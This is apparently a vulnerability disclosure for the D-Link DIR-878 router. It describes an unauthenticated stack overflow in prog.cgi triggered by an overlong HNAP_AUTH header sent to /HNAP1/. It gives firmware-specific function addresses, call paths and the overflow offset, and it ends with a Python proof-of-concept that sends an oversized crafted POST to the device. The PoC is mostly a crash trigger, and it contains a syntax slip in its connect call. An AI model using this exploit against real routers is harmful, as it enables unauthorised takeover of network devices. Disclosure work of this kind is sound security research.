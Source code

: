 ``` 
Dlink model DIR-878, the latest firmware 1.12B01, There is a stack overflow vulnerability that does not require authentication
This can cause remote code execution
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-878/REVA/
Vulnerability location: file:  /bin/prog.cgi
Vulnerability function：Different locations in different firmware versions
1.02B01:sub_41F534 
path:webssecurityhandler->sub_423fe4->sub_4205c0->sub_41f720-> sub_41F534(Vulnerability function)
1.12B01: sub_41F254
Path: webssecurityhandler->sub_423e04->sub_4202e0->sub_41f440-> sub_41F254 (Vulnerability function)
The attacker calls this function by sending a post packet to the http://ip/HNAP1/  page
.
Message header HNAP_AUTH length is not verified。At the same time, it uses the strncpy function to write to the stack, But the length of the copy is the length of the string entered by the user.Caused a stack overflow。

``` 

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-878/1.png)

post package

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-878/2.png)

Offset：0x208

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-878/3.png)

results:

![image](https://github.com/WhooAmii/whooamii.github.io/blob/master/2018/DIR-878/4.png)

poc
```
import requests
import sys
import struct
import time
from pwn import *

def syscmd1(a):
	data='<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>Admin</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

	p=remote('ip'port)
	z=len(data)
	payload=''
	payload+='POST /HNAP1/ HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Connection: close\r\n'
	payload+='HNAP_AUTH: EC502BB60841C94D843DB3E7E3B451BE '+a+'\r\n'
	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept: */*\r\n'
	payload+='Origin: http://192.168.0.1\r\n'
	payload+='SOAPAction: "http://purenetworks.com/HNAP1/Login"'
	payload+='User-Agent: python-requests/2.18.4\r\n'
	payload+='Content-Length: '+str(z)+'\r\n'
	payload+='Content-Type: text/xml; charset=UTF-8\r\n'
	payload+='Referer: http://ip/info/Login.html\r\n'
	payload+='Accept-Language: zh-CN,zh;q=0.9\r\n'
	payload+='X-Requested-With: XMLHttpRequest\r\n'
	payload+='Cookie: Hm_lvt_39dcd5bd05965dcfa70b1d2457c6dcae=1547191507,1547456131; uid=null\r\n'
	payload+='\r\n'
	payload+=data
	p.send(payload)
	print p.recv(1024)
	p.close()

if __name__ == "__main__":
			payload='A'*0x400
			
			syscmd1(payload)	
```
